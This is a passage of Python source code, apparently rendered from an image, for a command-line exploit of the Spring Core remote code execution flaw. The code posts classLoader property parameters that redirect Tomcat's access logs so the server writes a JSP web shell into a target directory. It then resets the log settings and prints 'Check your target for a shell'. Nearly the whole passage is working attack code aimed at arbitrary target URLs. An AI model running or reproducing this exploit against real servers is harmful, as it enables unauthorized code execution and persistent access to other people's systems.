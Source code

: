 ```py
    log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
    log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
 
    exp_data = "&".join([log_pattern, log_file_suffix, log_file_dir, log_file_prefix, log_file_date_format])
 
    # Setting and unsetting the fileDateFormat field allows for executing the exploit multiple times
    # If re-running the exploit, this will create an artifact of {old_file_name}_.jsp
    file_date_data = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_"
    print("[*] Resetting Log Variables.")
    ret = requests.post(url, headers=post_headers, data=file_date_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)
 
    # Change the tomcat log location variables
    print("[*] Modifying Log Configurations")
    ret = requests.post(url, headers=post_headers, data=exp_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)
 
    # Changes take some time to populate on tomcat
    time.sleep(3)
 
    # Send the packet that writes the web shell
    ret = requests.get(url, headers=get_headers, verify=False)
    print("[*] Response Code: %d" % ret.status_code)
 
    time.sleep(1)
 
    # Reset the pattern to prevent future writes into the file
    pattern_data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern="
    print("[*] Resetting Log Variables.")
    ret = requests.post(url, headers=post_headers, data=pattern_data, verify=False)
    print("[*] Response code: %d" % ret.status_code)
 
 
def main():
    parser = argparse.ArgumentParser(description='Spring Core RCE')
    parser.add_argument('--url', help='target url', required=True)
    parser.add_argument('--file', help='File to write to [no extension]', required=False, default="wuya")
    parser.add_argument('--dir', help='Directory to write to. Suggest using "webapps/[appname]" of target app',
                        required=False, default="webapps/ROOT")
 
    file_arg = parser.parse_args().file
    dir_arg = parser.parse_args().dir
    url_arg = parser.parse_args().url
 
    filename = file_arg.replace(".jsp", "")
 
    if url_arg is None:
        print("Must pass an option for --url")
        return
 
    try:
        run_exploit(url_arg, dir_arg, filename)
        print("[+] Exploit completed")
        print("[+] Check your target for a shell")
        print("[+] File: " + filename + ".jsp")
 
```